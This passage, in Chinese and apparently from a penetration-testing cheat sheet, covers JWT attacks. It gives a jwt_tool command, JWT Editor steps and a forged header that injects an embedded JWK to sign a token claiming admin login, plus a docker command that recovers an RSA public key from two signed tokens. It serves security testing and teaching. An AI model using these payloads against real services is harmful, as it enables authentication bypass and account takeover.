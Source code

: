 > 在 0.11.0 版本之前的 Cisco node-jose 开源库存在一个漏洞，未经身份验证的远程攻击者可以使用嵌入在令牌中的密钥重新签署令牌。该漏洞是由于 node-jose 遵循 JSON Web Signature (JWS) 标准处理 JSON Web Tokens (JWTs) 导致的。该标准规定可以在 JWS 的头部嵌入表示公钥的 JSON Web Key (JWK)，这个公钥随后会被信任用于验证。攻击者可以通过移除原始签名、在头部添加新的公钥，并使用嵌入在该 JWS 头部中的公钥对应的私钥来伪造有效的 JWS 对象来利用此漏洞。

**漏洞利用**：

- 使用 [ticarpi/jwt_tool](https://github.com/ticarpi/jwt_tool)

    ```ps1
    python3 jwt_tool.py [JWT_HERE] -X i
    ```

- 使用 [portswigger/JWT Editor](https://portswigger.net/bappstore/26aaa5ded2f74beea19e2ed8345a93dd)
    1. 添加一个新的 RSA 密钥
    2. 在 JWT 的 Repeater 标签页编辑数据
    3. `攻击` > `嵌入的 JWK`

**分解**：

```json
{
  "alg": "RS256",
  "typ": "JWT",
  "jwk": {
    "kty": "RSA",
    "kid": "jwt_tool",
    "use": "sig",
    "e": "AQAB",
    "n": "uKBGiwYqpqPzbK6_fyEp71H3oWqYXnGJk9TG3y9K_uYhlGkJHmMSkm78PWSiZzVh7Zj0SFJuNFtGcuyQ9VoZ3m3AGJ6pJ5PiUDDHLbtyZ9xgJHPdI_gkGTmT02Rfu9MifP-xz2ZRvvgsWzTPkiPn-_cFHKtzQ4b8T3w1vswTaIS8bjgQ2GBqp0hHzTBGN26zIU08WClQ1Gq4LsKgNKTjdYLsf0e9tdDt8Pe5-KKWjmnlhekzp_nnb4C2DMpEc1iVDmdHV2_DOpf-kH_1nyuCS9_MnJptF1NDtL_lLUyjyWiLzvLYUshAyAW6KORpGvo2wJa2SlzVtzVPmfgGW7Chpw"
  }
}.
{"login":"admin"}.
[使用新的私钥签名；公钥注入]
```

### JWT 签名 - 从签名的 JWT 中恢复公钥

RS256、RS384 和 RS512 算法使用 RSA 和 PKCS#1 v1.5 填充作为其签名方案。这具有这样一个特性：您可以给定两个不同的消息和伴随的签名来计算出公钥。

[SecuraBV/jws2pubkey](https://github.com/SecuraBV/jws2pubkey): 从两个签名的 JWT 计算 RSA 公钥

```ps1
$ docker run -it ttervoort/jws2pubkey JWS1 JWS2
$ docker run -it ttervoort/jws2pubkey "$(cat sample-jws/sample1.txt)" "$(cat sample-jws/sample2.txt)" | tee pubkey.jwk
计算公钥。这可能需要一分钟...
{"kty": "RSA", "n": "sEFRQzskiSOrUYiaWAPUMF66YOxWymrbf6PQqnCdnUla8PwI4KDVJ2XgNGg9XOdc-jRICmpsLVBqW4bag8eIh35PClTwYiHzV5cbyW6W5hXp747DQWan5lIzoXAmfe3Ydw65cXnanjAxz8vqgOZP2ptacwxyUPKqvM4ehyaapqxkBbSmhba6160PEMAr4d1xtRJx6jCYwQRBBvZIRRXlLe9hrohkblSrih8MdvHWYyd40khrPU9B2G_PHZecifKiMcXrv7IDaXH-H_NbS7jT5eoNb9xG8K_j7Hc9mFHI7IED71CNkg9RlxuHwELZ6q-9zzyCCcS426SfvTCjnX0hrQ", "e": "AQAB"}
```

## JWT 秘钥
